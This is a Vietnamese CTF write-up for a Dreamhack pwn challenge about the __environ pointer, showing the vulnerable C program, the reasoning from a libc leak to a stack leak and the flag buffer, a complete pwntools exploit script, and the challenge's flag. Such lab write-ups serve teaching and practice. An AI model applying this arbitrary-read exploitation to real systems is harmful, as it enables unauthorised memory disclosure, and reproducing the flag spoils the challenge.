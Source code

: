 # __environ

trước khi bước vào giải chall này thì ta cần nghiên cứu qua về **environ ptr (biến môi trường )**, tài liệu đây:

- **dreamhack:** https://learn.dreamhack.io/11#27 **(cách khai thác)**
- **dreamhack:** https://learn.dreamhack.io/270#3 **(tìm hiểu về Environment variables)**

hmm nói nôm na theo ý mình hiểu là như thế này:

- Trong Linux, b**iến môi trường (environment variables)** là các giá trị được lưu trữ trong hệ thống và có thể được sử dụng bởi các tiến trình hoặc chương trình chạy trên hệ thống. 
- **Biến môi trường** cung cấp thông tin về các cài đặt và cấu hình của hệ thống, và chúng có thể được thay đổi hoặc chỉnh sửa tùy theo nhu cầu của người dùng.
- **environ trong linux là một con trỏ kép (double pointer)**. Cụ thể, nó khai báo dưới dạng char **environ.

## source C:

```c 
// Name: environ.c
// Compile: gcc -o environ environ.c

#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <signal.h>
#include <stdlib.h>

void sig_handle() {
  exit(0);
}
void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);

  signal(SIGALRM, sig_handle);
  alarm(5);
}

void read_file() {
  char file_buf[4096];

  int fd = open("./flag", O_RDONLY);
  read(fd, file_buf, sizeof(file_buf) - 1);
  close(fd);
}
int main() {
  char buf[1024];
  long addr;
  int idx;

  init();
  read_file();

  printf("stdout: %p\n", stdout);

  while (1) {
    printf("> ");
    scanf("%d", &idx);
    switch (idx) {
      case 1:
        printf("Addr: ");
        scanf("%ld", &addr);
        printf("%s", (char *)addr);
        break;
      default:
        break;
    }
  }
  return 0;
}

```

ở đây ta có **hàm read_file** dùng **để đọc file flag và lưu chuỗi kí tự flag vào $rsi**

![image](https://github.com/gookoosss/CTF/assets/128712571/5f3f4b73-80ab-4fb9-b5e4-5ccdd547e28b)


và ta nảy ra ý tưởng khai thác là **ở hàm main ta sẽ nhập địa chỉ rsi vào để in ra flag**

nhưng mà vấn đề ở đây **ta ko hề có địa chỉ stack, chương trình chỉ cho ta địa chỉ của libc**

lúc này ta cần **sử dụng kiến thức environ ptr** mà mình vừa học ở trên

![image](https://github.com/gookoosss/CTF/assets/128712571/f0af24d0-3625-4427-9419-a3728f7dff83)



như ta đã biết thì **biến environ là 1 con trỏ kép**, như trong ảnh trên thì ta lúc này **environ đang lưu 1 địa chỉ stack**

lần nhập ta sẽ **nhập địa chỉ environ từ địa libc base mà ta leak được để có được địa chỉ stack**

![image](https://github.com/gookoosss/CTF/assets/128712571/ff85d25c-a051-4956-9e89-0a6cad59b1b6)


sau đó ta t**ính offset để leak được địa chỉ rsi** luôn

![image](https://github.com/gookoosss/CTF/assets/128712571/d89f9ce9-bab2-432a-a2f5-0648f38e7dc2)


oke bây giờ **ta đã có được $rsi rồi thì ta chỉ cần nhập $rsi vào để in flag** thôi 

![image](https://github.com/gookoosss/CTF/assets/128712571/1e321e76-f6eb-4618-9db3-2bf089075b58)



## script:

```python 
#!/usr/bin/env python3

from pwn import *

exe = ELF("./environ_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.35.so")
# p = remote("host3.dreamhack.games", 11479)

context.binary = exe
p = process([exe.path])

gdb.attach(p, gdbscript = '''
b*main+130
b*main+186
c
''')
 
input()        

# 0x21a780

p.recvuntil('stdout: ')
libc_leak = int(p.recvline()[:-1], 16)
libc.address = libc_leak - 0x21a780
environ = libc.sym['__environ']

log.info('libc leak: ' + hex(libc_leak))
log.info('libc base: ' + hex(libc.address))
log.info('environ: ' + hex(environ))

p.sendlineafter(b'>', b'1')
p.sendlineafter(b'Addr: ' , str(environ))

stack = u64(p.recv(6) + b'\0\0')
log.info('stack leak: ' + hex(stack))
rcx = stack - 0x1568
log.info('rsi: ' + hex(rcx))

p.sendlineafter(b'>', b'1')
p.sendlineafter(b'Addr: ' , str(rcx))

p.interactive()

# DH{dd7e95bf7ea608017206757444a1ff168720e0d18ded2aef99558d00e063b8a1}

```

## Flag:

DH{dd7e95bf7ea608017206757444a1ff168720e0d18ded2aef99558d00e063b8a1}






